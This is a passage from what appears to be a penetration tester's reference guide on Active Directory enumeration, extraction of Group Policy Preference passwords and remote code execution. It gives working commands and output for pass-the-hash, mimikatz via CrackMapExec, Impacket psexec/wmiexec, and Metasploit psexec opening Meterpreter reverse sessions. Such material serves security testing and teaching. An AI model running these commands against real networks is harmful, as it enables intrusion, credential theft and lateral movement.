 Get-SPN  -type user -search "*svc*" -List yes
	
Discovering the Service Accounts
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By Doing an SPN Scan for user accounts with Service Principal Names the service Accounts and the server accounts used can be identified.

::

 PS C:\> get-aduser -filter {ServicePrincipalName -like “*”} -Properties PasswordLastSet,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation 

Discovering the Computers and Domain Controllers without scanning the network
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The information regarding the computer operating system, DNSHostName, LastLogon Date etc. can also be gathered. Since every computer joining the active directory has an associated computer account in AD. When the computer is joined, several attributes such as date created, Modified, OperatingSystemVersion etc. are associated with this computer object that are updated. Such information can also be further used for lateral movements.

::

 PS C:\> get-adcomputer -filter {PrimaryGroupID -eq “515”} -Properties OperatingSystem,OperatingSystemVersion,OperatingSystemServicePack,
 Passwot,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation

The same information regarding the Domain Controllers can also be gathered by simply changing the PrimaryGroupID value to '516'. to obtain the details of all the computers in active directory by simply putting a wildcard mask in the filter parameter such as “-filter * ".

Identifying the Admin Accounts   
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The privileged accounts can be identified using two methods. The first one is by doing a detailed group enumeration, by doing this all members of the standard Active Directory admin groups: Domain Admins, Administrators, Enterprise Admins, etc. one such command is "Net Group "Domain Admins" /Domain" which will give us the list of Domain Administrators.

Another method is by identifying all accounts which have the attribute “AdminCount” set to 1. However, this may not be sometimes accurate since there may be accounts returned in this query which no longer have admin rights because these values aren't automatically reset even if the accounts are disabled or no longer a part of Admins group.

::

 PS C:\> get-aduser -filter {AdminCount -eq 1} -Properties Name,AdminCount,ServicePrincipalName,PasswordLastSet,LastLogonDate,MemberOf

This query will give us the "AdminCount :1" which indicates that the account is privileged account.

Finding the Admin Groups
^^^^^^^^^^^^^^^^^^^^^^^^

Most of the organizations follow a naming convention for the admin groups such as Domain Admins, Server Admins, Workstation Admins, Administrators etc. By Querying the Active Directory for groups with Admin as term we can identify the administrator groups.

::

 PS C:\> get-adgroup -filter {GroupCategory -eq ‘Security’ -AND Name -like “*admin*”}

Domain Password Policy
^^^^^^^^^^^^^^^^^^^^^^

The Domain password policy can be easily gathered either by using Net Accounts or Get-ADDefaultPasswordPolicy.

::

 Get-ADDefaultDomainPasswordPolicy
 Net Accounts

.. Note :: To use Get-ADDefaultPasswordPolicy PowerView.PS1 module is to be imported first.

Identifying the Groups with Local Admin Rights to windows machines
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Using the Powerview.PS1 module we can easily identify the identify GPOs that include Restricted Groups.


::

 PS C:\> Get-NetGPOGroup

we can also check to what OUs the GPOs link using a PowerView cmdlet.

::

 get-netOU -guid “GPOName Obtained Above”

next to identify the workstations/servers in the OU

::

 get-adcomputer -filter * -SearchBase “Result of the above”


PowerShell [adsiSearcher] Type Accelerator
------------------------------------------

If we have credentials of the user and a powershell prompt, we can utilize adsiSearcher to do the AD Enumeration

Define username, password, Domain, etc.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 $username = 'BITVIJAYS\LDAP'
 $password = 'PasswordForSearch!'
 $DomainControllerIpAddress = '10.2.2.2'
 $LdapDn = 'DC=bitvjays,DC=local'

Initialize the connection
^^^^^^^^^^^^^^^^^^^^^^^^^

When credentials are present and we are connecting using a non-domain machine, use below

::

 $dn = New-Object System.DirectoryServices.DirectoryEntry ("LDAP://$($DomainControllerIpAddress):389/$LdapDn",$username,$password)
 $ds = New-object System.DirectoryServices.DirectorySearcher($dn)

When you are already connected to the domain machine

[adsisearcher]”” specifies a filter that has no characters in it. The good thing is that the searchroot is automatically set to the root of the current domain.

::

 $ds = [adsisearcher]""

Finding the Domain Name
^^^^^^^^^^^^^^^^^^^^^^^

::

 $ds.SearchRoot
 distinguishedName : {DC=bitvijays,DC=local}
 Path : LDAP://DC=bitvijays,DC=local

Finding the Computers
^^^^^^^^^^^^^^^^^^^^^

::

 PS > $ds.Filter ="((objectCategory=computer))"
 PS > $ds.FindAll() --- Provides all the objects in the AD for computers
 PS > $ds.FindOne() --- Provides one object in the AD for computers

Result

::

 Path                                                                  Properties
 ----                                                                  ----------
 LDAP://10.2.2.2:389/CN=DC,OU=Domain Controllers,DC=bitvijays,DC=local {ridsetreferences, logoncount, codepage, objec...
 LDAP://10.2.2.2:389/CN=FILE,CN=Computers,DC=bitvijays,DC=local        {logoncount, codepage, objectcategory, iscriti... 

Finding the Users:
^^^^^^^^^^^^^^^^^^

::

 PS > $ds.Filter ="((objectCategory=user))"
 PS > $ds.FindAll() --- Provides all the objects in the AD for users

Properties of the object
^^^^^^^^^^^^^^^^^^^^^^^^

We can use 

::

 $ds.FindOne().properties
 $ds.FindAll().properties

to find the properties of the object. Once the properties are found, we can search for any particular object based on regex.

Examples:

* Finding a particular user named Bob
  
 Check the properties of the user

 ::

  Properties of a user
  PS > $ds.findOne().properties

  Name                           Value
  ----                           -----
  objectcategory                 {CN=Person,CN=Schema,CN=Configuration,DC=bitvijays,DC=local}
  name                           {Administrator}
  cn                             {Administrator}
  admincount                     {1}
  samaccountname                 {Administrator}

 
 Then particularly search for a user

 ::
  
  PS > $ds.Filter ="((name=*Bob*))"
  PS > $ds.Findall()

  Path                                                                Properties
  ----                                                                ----------
  LDAP://10.2.2.2:389/CN=Bobby John,OU=People,DC=bitvijays,DC=local {logoncount, codepage, objectcategory, descripti...
  
* Finding all users of a particular group

 ::

  $ds.filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,DC=bitvijays,dc=local))"

Get sessions of remote machines
-------------------------------

Powerview Get-NetSession
^^^^^^^^^^^^^^^^^^^^^^^^

net session
^^^^^^^^^^^^^

* Net session of current computer

 ::

   net session

   Computer               User name            Client Type       Opens Idle time

   -------------------------------------------------------------------------------
   \\127.0.0.1            Administrat0r                              1 05D 22H 02M

   The command completed successfully.

* Net session of remote computer
 
 :: 

   net session \\computername

WMI
^^^

We can use wmi to get the remote logged on users. However, I believe to run wmi on remote machine, you need to be administrator of that machine.

::

  wmic:root\cli> /node:"computername" path win32_loggeduser get antecedent
  
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="srv.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="MA",Name="axxd.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="DC",Name="ANONYMOUS LOGON"

View users in Domain / Workgroup
--------------------------------

Powerview Get-NetUser
^^^^^^^^^^^^^^^^^^^^^

net user /domain
^^^^^^^^^^^^^^^^

WMI
^^^

Domain users:

:: 

  wmic useraccount list /format:list 


View machines in Domain/ Workgroup
----------------------------------

Powerview Get-NetComputers
^^^^^^^^^^^^^^^^^^^^^^^^^^

net view /domain
^^^^^^^^^^^^^^^^

? -- check the functionality

View machines affected by GPP vulnerability
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

When we run Get-GPPPassword, we get output like

::

  Password: password@123
  Changed : 2013-07-02 01:01:23
  Username: Administrator
  NewName : 
  File    : \\Demo.lab\sysvol\demo.lab\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\DataSources\{DataSouces| Groups| ScheduledTasks.xml

To get the computers using the passwords set by the GPP, we can use

::

  Get-NetOU -GUID "{31B2F340-016D-11D2-945F-00C04FB984F9}" | %{ Get-NetComputer -ADSPath $_ }

Get-NetSite function, which returns the current sites for a domain, also accepts the -GUID filtering flag. This information has been taken from harmj0y blog `gpp and powerview <http://www.harmj0y.net/blog/powershell/gpp-and-powerview/>`_ 

More information about GPP should be read from Sean Metcalf blog `Using Group Policy Preferences for Password Management = Bad Idea <https://adsecurity.org/?p=384>`_ and `Finding Passwords in SYSVOL & Exploiting Group Policy Preferences <https://adsecurity.org/?p=2288>`_ 

There are various methods to figure out the GPP Password if it's set.

* `Get-GPPPassword.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1>`_ :  **PowerShell script** that can identify and extract the password(s) stored in Group Policy Preferences using the MSDN AES key. 

* **Metasploit auxiliary module - SMB Group Policy Preference Saved Passwords Enumeration** :  This module enumerates files from target domain controllers and connects to them via SMB. It then looks for Group Policy Preference XML files containing local/domain user accounts and passwords and decrypts them using Microsoft's public AES key. This module has been tested successfully on a Win2k8 R2 Domain Controller. ( Requires domain user credentials)

 ::

   use auxiliary/scanner/smb/smb_enum_gpp
   set smbdomain example.com
   set smbuser user
   set smbpass pass
   set rhosts 192.168.56.2

 Thanks to Tanoy Bose for informing about this!. Previously, we used to manually search the SYSVOL location! ( When for some reason Get-GPPPassword doesn't work! )

* **Meterpreter session**, we can use metasploit post module - Windows Gather Group Policy Preference Saved Passwords : This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked. 

 :: 

  use post/windows/gather/credentials/gpp
  set session <Session_Number>

* **Reading Group Policies** manually stored here: \\\<DOMAIN>\\SYSVOL\\<DOMAIN>\\Policies\\

View group in Domain / Workgroup
--------------------------------

Powerview Get-NetGroupMember
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Net group / domain
^^^^^^^^^^^^^^^^^^

Windows Resource Kit Local/ Global executable
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Global.exe 

 ::

   PS C:\> .\global.exe

   Displays members of global groups on remote servers or domains.

   GLOBAL group_name domain_name | \\server

   group_name    The name of the global group to list the members of.
   domain_name   The name of a network domain.
   \\server      The name of a network server.

   Examples:
   Global "Domain Users" EastCoast
   Displays the members of the group 'Domain Users' in the EastCoast domain.

   Global PrintUsers \\BLACKCAT
   Displays the members of the group PrintUsers on server BLACKCAT.

   Notes:
   Names that include space characters must be enclosed in double quotes.
   To list members of local groups use Local.Exe.
   To get the Server name for a give Domain use GetDC.Exe.

 Example:

 ::

   PS C:\> .\global.exe "Domain Admins" \\domainname
   Uraxxxx
   axx.xxxxx
   axx.xxxxx2
   axx.xxxxxx3


BloodHound Group Memberships
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

WMI user groups
^^^^^^^^^^^^^^^
 
::

  wmic group list brief
  ABCD\SUS Administrator    ABCD          SUS Administrator                                         S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-7357
  ABCD\VPN Admins           ABCD          VPN Admins                                                S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-8728
  ABCD\VPN Users            ABCD          VPN Users                                                 S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-9229
  ABCD\XXX - OER Users      ABCD          XXX - OER Users                                           S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-5095


Hunting for a particular User?
------------------------------

Powerview Invoke-UserHunter
^^^^^^^^^^^^^^^^^^^^^^^^^^^

BloodHound users_sessions
^^^^^^^^^^^^^^^^^^^^^^^^^

EventLog AD? 
^^^^^^^^^^^^
How? Not yet successful!

.. To Do :: * Finding which machine belong to which user? Any other way than above?  * Machine belongs to which user AD Properties -- GETADObject (Tanoy)

.. _remote-code-execution-methods:

Remote Code Execution Methods
=============================

A lot of details for Remote Code execution has already been mentioned by Rop Nop in his three parts `Part 1: Using credentials to own windows boxes <https://blog.ropnop.com/using-credentials-to-own-windows-boxes/>`_ , `Part2: PSExec and Services <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/>`_ and `Part: 3 Wmi and WinRM <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_ and by scriptjunkie in his blog `Authenticated Remote Code Execution Methods in Windows <https://www.scriptjunkie.us/2013/02/authenticated-remote-code-execution-methods-in-windows/>`_ 

We have just summarized all in one page with *working* examples wherever possible.

Winexe
------

Linux Binary pth-winexe
^^^^^^^^^^^^^^^^^^^^^^^

::

  winexe version 1.1
  Usage: winexe [OPTION]... //HOST COMMAND
  Options:
   -h, --help                                  Display help message
   -V, --version                               Display version number
   -U, --user=[DOMAIN/]USERNAME[%PASSWORD]     Set the network username
   -A, --authentication-file=FILE              Get the credentials from a file
   -N, --no-pass                               Do not ask for a password
   -k, --kerberos=STRING                       Use Kerberos, -k [yes|no]
   -d, --debuglevel=DEBUGLEVEL                 Set debug level
       --uninstall                             Uninstall winexe service after remote execution
       --reinstall                             Reinstall winexe service before remote execution
       --system                                Use SYSTEM account
       --profile                               Load user profile
       --convert                               Try to convert characters between local and remote code-pages
       --runas=[DOMAIN\]USERNAME%PASSWORD      Run as the given user (BEWARE: this password is sent in cleartext over the network!)
       --runas-file=FILE                       Run as user options defined in a file
       --interactive=0|1                       Desktop interaction: 0 - disallow, 1 - allow. If allow, also use the --system switch (Windows requirement). Vista does not support this option.
       --ostype=0|1|2                          OS type: 0 - 32-bit, 1 - 64-bit, 2 - winexe will decide. Determines which version (32-bit or 64-bit) of service will be installed.
  
Example with pth:

::

  pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
  pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe

If we want to login as NTAuthority, probably use --system. (Helpful when we to run commands as NTAuthority such as installing ssh server host keys)

Windows Binary win-exe
^^^^^^^^^^^^^^^^^^^^^^

win-exe can be downloaded from `winexe <https://sourceforge.net/projects/winexe/>`_ 

commands and usage is same as linux binary pth-winexe. However, it needed to be compiled from the source.

crackmapexec
------------

`CrackMapExec <https://github.com/byt3bl33d3r/CrackMapExec>`_ is quite awesome tool when it comes to remote command execution. Read the `wiki <https://github.com/byt3bl33d3r/CrackMapExec/wiki>`_ 

Usage
^^^^^

::

  positional arguments:
  target                The target IP(s), range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containing a list of targets

  optional arguments:
    -h, --help            show this help message and exit
    -v, --version         show program's version number and exit
    -t THREADS            Set how many concurrent threads to use (default: 100)
    -u USERNAME [USERNAME ...]  Username(s) or file(s) containing usernames
    -d DOMAIN             Domain name
    --local-auth          Authenticate locally to each target
    -p PASSWORD [PASSWORD ...]  Password(s) or file(s) containing passwords
    -H HASH [HASH ...]    NTLM hash(es) or file(s) containing NTLM hashes
    -M MODULE, --module MODULE Payload module to use
    -MC CHAIN_COMMAND, --module-chain CHAIN_COMMAND  Payload module chain command string to run
    -o MODULE_OPTION [MODULE_OPTION ...] Payload module options
    -L, --list-modules    List available modules
    --show-options        Display module options
    --verbose             Enable verbose output

  Credential Gathering:
  Options for gathering credentials

  --sam                 Dump SAM hashes from target systems
  --lsa                 Dump LSA secrets from target systems
  --ntds {vss,drsuapi}  Dump the NTDS.dit from target DCs using the specified method
                        (drsuapi is the fastest)
  --ntds-history        Dump NTDS.dit password history
  --ntds-pwdLastSet     Shows the pwdLastSet attribute for each NTDS.dit account
  --wdigest {enable,disable}
                        Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
  Mapping/Enumeration:
  Options for Mapping/Enumerating

  --shares              Enumerate shares and access
  --uac                 Checks UAC status
  --sessions            Enumerate active sessions
  --disks               Enumerate disks
  --users               Enumerate users
  --rid-brute [MAX_RID]
                        Enumerate users by bruteforcing RID's (default: 4000)
  --pass-pol            Dump password policy
  --lusers              Enumerate logged on users
  --wmi QUERY           Issues the specified WMI query
  --wmi-namespace NAMESPACE
                        WMI Namespace (default: //./root/cimv2)

  Command Execution:
  Options for executing commands

  --exec-method {smbexec,wmiexec,atexec}
                        Method to execute the command. Ignored if in MSSQL mode (default: wmiexec)
  --force-ps32          Force the PowerShell command to run in a 32-bit process
  --no-output           Do not retrieve command output
  -x COMMAND            Execute the specified command
  -X PS_COMMAND         Execute the specified PowerShell command


Modules
^^^^^^^
::

 crackmapexec smb -L

 [*] empire_exec               Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
 [*] enum_avproducts           Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI
 [*] enum_chrome               Decrypts saved Chrome passwords using Get-ChromeDump
 [*] get_keystrokes            Logs keys pressed, time and the active window
 [*] get_netdomaincontroller   Enumerates all domain controllers
 [*] get_netrdpsession         Enumerates all active RDP sessions
 [*] get_timedscreenshot       Takes screenshots at a regular interval
 [*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
 [*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
 [*] invoke_sessiongopher      Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher
 [*] invoke_vnc                Injects a VNC client in memory
 [*] met_inject                Downloads the Meterpreter stager and injects it into memory
 [*] mimikatz                  Dumps all logon credentials from memory
 [*] mimikatz_enum_chrome      Decrypts saved Chrome passwords using Mimikatz
 [*] mimikatz_enum_vault_creds Decrypts saved credentials in Windows Vault/Credential Manager
 [*] mimikittenz               Executes Mimikittenz
 [*] multirdp                  Patches terminal services in memory to allow multiple RDP users
 [*] netripper                 Capture's credentials by using API hooking
 [*] pe_inject                 Downloads the specified DLL/EXE and injects it into memory
 [*] rdp                       Enables/Disables RDP
 [*] shellcode_inject          Downloads the specified raw shellcode and injects it into memory
 [*] slinky                    Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions
 [*] test_connection           Pings a host
 [*] tokens                    Enumerates available tokens
 [*] uac                       Checks UAC status
 [*] wdigest                   Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
 [*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module


Using a module

Simply specify the module name with the -M flag:

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz
 06-05-2016 14:13:59 CME          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)

Use the -M flag to specify the module and the --options argument to view the module's supported options:

::
 
 #~ crackmapexec -M mimikatz --options
 06-05-2016 14:10:33 [*] mimikatz module options:
 COMMAND Mimikatz command to execute (default: 'sekurlsa::logonpasswords')

Using module options
Module options are specified with the -o flag. All options are specified in the form of KEY=value (msfvenom style)

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND=privilege::debug

Smbmap
------

smbmap an inbuilt tool in kali linux which gives some awesome results while gathering information related to the shares associated to with a particular user. As compared to the crackmapexec we can also use smbmap in order to verify the credentials gathered. This can not only be used to map the shares but can also be used for running remote commands by specifying the '-x' flag.

::

  smbmap -H 192.168.4.32 -d ABC.com -u Administrat0r -p P@ssw0rd!
  [+] Finding open SMB ports....
  [+] User SMB session established on 192.168.4.32...
  [+] IP: 10.7.3.2:445	Name: dcrs.ABC.com                              
  	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	READ, WRITE
	C$                                                	READ, WRITE
	IPC$                                              	READ ONLY
	NETLOGON                                          	READ, WRITE
	SYSVOL                                            	READ, WRITE
	[!] Unable to remove test directory at \\192.168.4.32\SYSVOL\BiZyIseFGv, please remove manually.


Impacket psexec/ smbexe/ wmiexec
--------------------------------

Impacket psexec
^^^^^^^^^^^^^^^

::

  ./psexec.py -debug Admini:Password@10.0.X.X

  Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies
 
  [*] Trying protocol 445/SMB...
  [*] Requesting shares on 10.0.5.180.....
  [*] Found writable share ADMIN$
  [*] Uploading file kBibbkKL.exe
  [*] Opening SVCManager on 10.0.5.180.....
  [*] Creating service cvZN on 10.0.5.180.....
  [*] Starting service cvZN.....
  [-] Pipe not ready, aborting
  [*] Opening SVCManager on 10.0.5.180.....
  [*] Stoping service cvZN.....
  [*] Removing service cvZN.....
  [*] Removing file kBibbkKL.exe.....

Impacket smbexec
^^^^^^^^^^^^^^^^

::

  ./smbexec.py -debug Admini:Password@10.0.5.180

  Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies

  [+] StringBinding ncacn_np:10.0.5.180[\pipe\svcctl]
  [+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
  [!] Launching semi-interactive shell - Careful what you execute

  C:\Windows\system32>ipconfig
  [+] Executing %COMSPEC% /Q /c echo ipconfig ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat

  Windows IP Configuration


  Ethernet adapter Local Area Connection:

  Connection-specific DNS Suffix  . : 
  Link-local IPv6 Address . . . . . : fe80::4546:b672:307:b488%10
  IPv4 Address. . . . . . . . . . . : 10.0.X.XX
  Subnet Mask . . . . . . . . . . . : 255.255.254.0
  Default Gateway . . . . . . . . . : 10.0.X.1

  Tunnel adapter isatap.{EB92DEE7-521B-4E14-84C2-0E9B9E96563E}:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  Tunnel adapter Local Area Connection* 11:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  C:\Windows\system32>

Impacket wmiexec
^^^^^^^^^^^^^^^^

::

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
  
  usage: wmiexec.py [-h] [-share SHARE] [-nooutput] [-debug]
                    [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                    [-dc-ip ip address]
                    target [command [command ...]]

  Executes a semi-interactive shell using Windows Management Instrumentation.

  positional arguments:
    target                [[domain/]username[:password]@]<targetName or address>
    command               command to execute at the target. If empty it will
                          launch a semi-interactive shell

  authentication:
    -hashes LMHASH:NTHASH
                          NTLM hashes, format is LMHASH:NTHASH
    -no-pass              don't ask for password (useful for -k)
    -k                    Use Kerberos authentication. Grabs credentials from
                          ccache file (KRB5CCNAME) based on target parameters.
                          If valid credentials cannot be found, it will use the
                          ones specified in the command line
    -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                          bits)
    -dc-ip ip address     IP Address of the domain controller. If ommited it use
                          the domain part (FQDN) specified in the target
                          parameter

**Example with password**

::

  wmiexec.py -debug Administrat0r:Passw0rd\!\!@10.0.5.180

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

  [*] SMBv2.1 dialect used
  [+] Target system is 10.0.5.180 and isFDQN is False
  [+] StringBinding: \\\\xxxxHBKS1739[\\PIPE\\atsvc]
  [+] StringBinding: xxxxhbks1739[49155]
  [+] StringBinding: 10.0.5.180[49155]
  [+] StringBinding chosen: ncacn_ip_tcp:10.0.5.180[49155]
  [!] Launching semi-interactive shell - Careful what you execute
  [!] Press help for extra shell commands
  C:\>hostname
  xxxxhbks1739

  C:\>whoami
  xxxxhbks1739\administrat0r

  C:\>

**Example with hashes**

::

    wmiexec.py -debug -hashes xxxxxxxxxxxxxx:xxxxxxx  Administrat0r@10.0.5.180
  
Metasploit psexec
-----------------

Metasploit psexec have three methods to invoke, 

::

   msf exploit(psexec) > show targets 

   Exploit targets:

   Id  Name
   --  ----
    0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload


Target 2: Native upload
^^^^^^^^^^^^^^^^^^^^^^^

::

  msf exploit(psexec) > set target 2
  target => 2

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Uploading payload...
  [*] 10.0.5.180:445 - Created \hnFrgUVk.exe...
  [-] 10.0.5.180:445 - Service failed to start - ACCESS_DENIED
  [*] 10.0.5.180:445 - Deleting \hnFrgUVk.exe...
  [*] Exploit completed, but no session was created.


We can see that the exploit was completed however, no session was created. Also the antivirus provided an alert.

::
  
 Datei "C:\Windows\hnFrgUVk.exe" belongs to virus/spyware 'Troj/Swrort-K'.

Let's try with 

Target 1, powershell 
^^^^^^^^^^^^^^^^^^^^  

::

  msf exploit(psexec) > set smbdomain .
  smbdomain => .
  msf exploit(psexec) > set smbuser Administrat0r
  smbuser => Administrat0r
  msf exploit(psexec) > set smbpass Passw0rd!!
  smbpass => Passw0rd!!
  msf exploit(psexec) > set rhost 10.0.5.180
  rhost => 10.0.5.180
  msf exploit(psexec) > run 

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Exploit completed, but no session was created.
  msf exploit(psexec) > run 
  
  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Sending stage (957487 bytes) to 10.0.5.180
  [*] Meterpreter session 1 opened (10.11.43.116:4444 -> 10.0.5.180:64783) at 2017-02-20 16:31:41 +0530
  
  meterpreter > 

Let's try also with 

Target 3: MOF Upload
^^^^^^^^^^^^^^^^^^^^

:: 

   msf exploit(psexec) > set target 3
   target => 3

   [*] Started reverse TCP handler on 10.11.43.116:4444 
   [*] 10.0.5.180:445 - Connecting to the server...
   [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
   [*] 10.0.5.180:445 - Trying wbemexec...
   [*] 10.0.5.180:445 - Uploading Payload...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\KiaHTgBg.exe
   [*] 10.0.5.180:445 - Uploading MOF...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\wbem\mof\5SZ1WZENmHyays.MOF
   [*] Exploit completed, but no session was created.
 

Working of MSF PSexec - Native Upload
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Jonathan has already written awesome detailed blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ Working of MSF PSExec has been taken from his blog directly.

While similar in functionality to Sysinternal’s PsExec, the Metasploit Framework’s PSExec Module has a few key differences and at a high-level performs the following actions.  By default, the module takes the following actions:

* Creates a randomly-named service executable with an embedded payload
* Connects to the hidden ADMIN$ share on the remote system via SMB
* Drops malicious service executable onto the share
* Utilizes the SCM to start a randomly-named service
* Service loads the malicious code into memory and executes it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself, stopping the service and deleting the executable

There is more flexibility with the Metasploit’s PSExec in comparison to Microsoft’s tool.  For instance, the default location of the malicious service executable can be modified from the hidden ADMIN$ to C$ or even another shared folder on the target machine.  Names of the service executable and associated service can also be changed under the module’s Advanced settings.

However, the most important modification that a penetration tester can make is creating and linking to a custom service executable instead of relying on the executable templates provided by the Metasploit Framework.  Failure to do so greatly increases the risk of detection by the target system’s anti-virus solution once the executable is dropped to disk. 

Working of MSF PSExec - Powershell
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Details taken directly from Jonathan blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_

At a high-level, the psexec_psh module works as follows:

* Embed stager into a PowerShell script that will inject the payload into memory
* Compress and Base64 encode the PowerShell script
* Wrap encoded script into a PowerShell one-liner that decodes and deflates
* Connect to ADMIN$ share on target machine over SMB and run the one-liner
* Embedded script is passed into memory via PowerShell’s Invoke-Expression (IEX)
* Script creates a new service and passes stager payload into it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself by tearing down the service


Sysinternals psexec
-------------------

Microsoft Sysinternal tool psexec can be downloaded from `PsExec <https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx>`_. Mark has written a good article on how psexec works is `PsExec Working <http://windowsitpro.com/systems-management/psexec>`_.

::

 psexec.exe \\Computername -u DomainName\username -p password <command>
 command can be cmd.exe/ ipconfig etc.

Working of Microsoft PSExec
^^^^^^^^^^^^^^^^^^^^^^^^^^^

The below details are taken from Jonathan blog on `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ 

At a high-level, the PsExec program works as follows:

* Connects to the hidden ADMIN$ share (mapping to the C:\Windows folder) on the remote system via SMB
* Utilizes the Service Control Manager (SCM) to start the PsExecsvc service and enable a named pipe on the remote system
* Input/output redirection of the console is achieved via the created named pipe

Sysinternal PSExec with hashes
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sysinternal PSExec is a tool built to assist system administrators. In order to use PsExec with captured hashes, we would require Windows Credential Editor (WCE).  This would require us to drop another executable to disk and risk detection. Fuzzynop has provided a tutorial `Pass the Hash without Metasploit <http://fuzzynop.blogspot.in/2012/09/pass-hash-without-metasploit.html>`_ 

* Change the current NTLM credentials

 ::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash>

 Example:

 ::

  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537

